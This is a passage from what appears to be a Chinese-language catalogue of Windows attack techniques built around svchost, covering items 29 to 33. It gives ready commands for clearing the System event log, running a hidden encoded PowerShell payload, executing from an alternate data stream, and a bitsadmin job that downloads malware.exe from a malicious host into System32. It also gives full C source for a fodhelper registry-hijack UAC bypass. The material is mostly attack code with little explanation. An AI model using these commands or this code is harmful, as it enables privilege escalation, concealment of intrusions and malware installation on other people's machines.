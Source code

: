     schtasks /create /tn "MaliciousTask" /tr "svchost.exe -k netsvcs -p malicious.dll"

 **29\. 事件日志篡改**

 ** ** **说明:  ******清除事件日志以隐藏svchost

  * 

    
    
    wevtutil cl System

 **30\. 无文件恶意软件执行**

 ** ** **说明:  ******在svchost中通过PowerShell执行无文件恶意软件

  * 

    
    
    powershell.exe -nop -w hidden -encodedCommand [Base64Code]

 **31\. 替换数据流执行**

  * 

    
    
     cmd.exe /c start svchost.exe:malicious.exe

 **32\. BITS**

  * 

    
    
     bitsadmin /create /download /priority foreground MaliciousJob http://malicious.com/malware.exe C:\Windows\System32\svchost_malware.exe

 **33\. UAC Bypass**

 ** ** ** **说明:
********绕过用户帐户控制(UAC)是恶意软件用来在不提示用户的情况下提升权限的常用技术。有许多方法可以绕过UAC，其中许多方法利用了Windows组件中的特定行为或漏洞。一个众所周知的方法包括利用fodhelper.exe二进制文件，这是Windows的一部分功能需求。

  * 

    
    
    fodhelper.exe

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <stdio.h>  
    int main() {    HKEY hKey;    char cmd[] = "C:\\Windows\\System32\\cmd.exe";  // Command to be executed with elevated privileges  
        // Create a registry key to hijack the fodhelper.exe behavior    if (RegCreateKeyEx(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings\\shell\\open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE, NULL, &hKey, NULL) != ERROR_SUCCESS) {        printf("Failed to create registry key.\n");        return 1;    }  
        // Set the default value of the key to the command we want to execute    if (RegSetValueEx(hKey, NULL, 0, REG_SZ, (BYTE*)cmd, sizeof(cmd)) != ERROR_SUCCESS) {        printf("Failed to set registry value.\n");        RegCloseKey(hKey);        return 1;    }  
        // Execute fodhelper.exe, which will now launch our command with elevated privileges    system("C:\\Windows\\System32\\fodhelper.exe");  
        // Cleanup: Remove the registry key to restore original behavior    RegDeleteKey(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings\\shell\\open\\command");  
        printf("UAC bypass attempted using fodhelper.exe.\n");    return 0;}
